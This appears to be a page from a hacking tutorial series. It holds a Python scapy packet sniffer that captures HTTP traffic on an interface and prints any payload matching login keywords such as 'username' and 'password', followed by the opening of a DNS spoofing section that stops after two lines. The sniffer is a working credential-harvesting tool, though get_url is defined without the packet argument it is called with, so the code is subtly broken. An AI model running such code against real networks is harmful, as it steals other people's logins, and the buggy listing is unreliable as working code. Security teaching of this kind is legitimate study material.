 
---

## 04 - Packet Sniffer

- capture data flowing through an interface
- filter this data 
- display useful information 

### Code

```
#!/usr/bin/env python

# packet_sniffer.py

import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
	scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def get_url():
	return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
	if packet.haslayer(scapy.Raw):
		load = str(packet[scapy.Raw].load)
		keywords = ["username", "user", "login", "password", "pass"]
		for keyword in keywords:
			if keyword in load:
				return load
				
def process_sniffed_packet(packet):
	if packet.haslayer(http.HTTPRequest):
		url = get_url(packet)
		print("[+] HTTP Request >> " + url.decode())
		
		login_info = get_login_info(packet)
		if login_info:
			print("\n\n[+] Possible username/password > " + login_info + "\n\n")
			
sniff("eth0")
```

---

## 05 - DNS Spoofer 

- once packets are captured, they can also be modified
- **DNS** (***Domain Name Server***) translates domain names into IP addresses of servers that are hosting those websites.
